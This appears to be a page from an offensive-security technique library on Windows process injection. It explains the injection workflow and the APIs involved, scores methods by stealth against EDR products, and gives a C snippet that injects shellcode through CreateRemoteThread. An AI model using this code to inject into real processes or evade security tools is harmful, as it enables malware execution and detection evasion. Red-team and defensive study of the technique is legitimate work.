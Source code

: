 # Process Injection Techniques

## Technique ID: NOCTIS-T003

## Conceptual Understanding

### What Is Process Injection?

Process injection is the technique of executing arbitrary code in the address space of a separate live process. This is done to:

1. **Evade detection** by hiding malicious code in legitimate processes
2. **Elevate privileges** by injecting into higher-privileged processes
3. **Persist** by maintaining presence in long-running system processes
4. **Bypass security controls** that whitelist certain processes

### Core Injection Workflow

```
1. Open target process (OpenProcess / NtOpenProcess)
2. Allocate memory in target (VirtualAllocEx / NtAllocateVirtualMemory)
3. Write payload to allocated memory (WriteProcessMemory / NtWriteVirtualMemory)
4. Execute payload via:
   - CreateRemoteThread / NtCreateThreadEx
   - Thread hijacking (SuspendThread, SetThreadContext, ResumeThread)
   - APC injection (QueueUserAPC)
   - Process hollowing (map new image over existing)
```

## Injection Methods

### 1. Classic CreateRemoteThread

**Method**: Allocate RWX memory, write shellcode, create remote thread.

**Advantages**:
- Simple, reliable
- Works on all Windows versions

**Disadvantages**:
- Heavily signatured
- RWX memory is suspicious
- CreateRemoteThread is hooked by all EDRs

**OPSEC Score**: 3/10

**Code Pattern**:
```c
HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, targetPID);
LPVOID pRemoteBuffer = VirtualAllocEx(hProcess, NULL, shellcodeSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(hProcess, pRemoteBuffer, shellcode, shellcodeSize, NULL);
CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteBuffer, NULL, 0, NULL);
```
